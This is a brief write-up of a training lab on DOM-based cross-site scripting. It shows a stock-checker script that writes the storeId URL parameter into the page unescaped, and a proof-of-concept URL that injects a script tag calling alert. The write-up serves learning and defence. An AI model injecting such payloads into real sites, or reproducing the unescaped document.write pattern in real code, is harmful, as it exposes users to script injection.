

From lab description 

```
This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality
```

Looking at the page's source we can see an interesting script tag 

```javascript
<script>
var stores = ["London","Paris","Milan"];
var store = (new URLSearchParams(window.location.search)).get('storeId');
document.write('<select name="storeId">');
if(store) {
    document.write('<option selected>'+store+'</option>');
}
for(var i=0;i<stores.length;i++) {
    if(stores[i] === store) {
        continue;
    }
    document.write('<option>'+stores[i]+'</option>');
}
document.write('</select>');
</script>
```

It uses `document.write` function with arbitrary string set by search parameter `storeId`. 

To validate it actually is doing what we think, we can give some text



Then actually 'exploit' by alert function

```
/product?productId=3&storeId=%3Cscript%3Ealert(1)%3C/script%3E
```
